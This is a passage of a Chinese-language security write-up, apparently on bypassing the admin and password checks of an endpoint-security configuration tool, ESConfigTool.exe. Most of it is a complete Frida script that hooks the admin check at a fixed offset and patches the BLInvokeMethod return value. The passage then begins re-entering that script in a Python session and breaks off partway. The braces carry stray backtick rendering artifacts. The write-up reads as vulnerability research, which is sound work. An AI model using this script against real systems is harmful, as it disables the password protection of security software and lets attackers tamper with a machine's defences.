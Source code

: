 现在我们可以将JavaScript代码注入`ESConfigTool`进程中。



## 0x07 Frida脚本

这里我就不详细介绍如何创建该脚本，本文已经介绍了足够多的背景信息，这里我直接给出完整脚本：

```
const configBase = Module.findBaseAddress('ESConfigTool.exe');
//const adminCheck = configBase.add(0x5240); //32
const adminCheck = configBase.add(0x5f30); //64
const BLInvokeMethod = Module.findExportByName('blframework.dll','BLInvokeMethod')

console.log('[-] Base address is:',configBase);
console.log('[-] Admin check is:',adminCheck);
console.log('[-] BLInvokeMethod:',BLInvokeMethod);

Interceptor.attach(adminCheck, `{`
  onEnter: function (args) `{`
    console.log('[+] Hooked admin check function');
  `}`,
  onLeave: function (retval) `{`
    console.log('[+] Returning true for admin check');
    retval.replace(1);
  `}`
`}`);

Interceptor.attach(BLInvokeMethod, `{`
  onEnter: function (args) `{`
    console.log('[+] Hooked BLInvokeMethod function');
  `}`,
  onLeave: function (retval) `{`
    console.log('[+] Patching password check function');
    retval.replace(0x0);
  `}`
`}`);
```

脚本的逻辑与我们在调试器中手动执行的逻辑一致，会修改返回值。让我们注入脚本，观察是否能成功执行：

```
&gt;&gt;&gt; script = """
... const configBase = Module.findBaseAddress('ESConfigTool.exe');
... //const adminCheck = configBase.add(0x5240); //32
... const adminCheck = configBase.add(0x5f30); //64
... const BLInvokeMethod = Module.findExportByName('blframework.dll','BLInvokeMethod')
... 
... console.log('[-] Base address is:',configBase);
... console.log('[-] Admin check is:',adminCheck);
... console.log('[-] BLInvokeMethod:',BLInvokeMethod);
... 
... Interceptor.attach(adminCheck, `{`
...   onEnter: function (args) `{`
...     console.log('[+] Hooked admin check function');
...   `}`,
...   onLeave: function (retval) `{`
...     console.log('[+] Returning true for admin check');
...     retval.replace(1);
...   `}`
... `}`);
... 
... Interceptor.attach(BLInvokeMethod, `{`
...   onEnter: function (args) `{`
...     console.log('[+] Hooked BLInvokeMethod function');
...   `}`,
```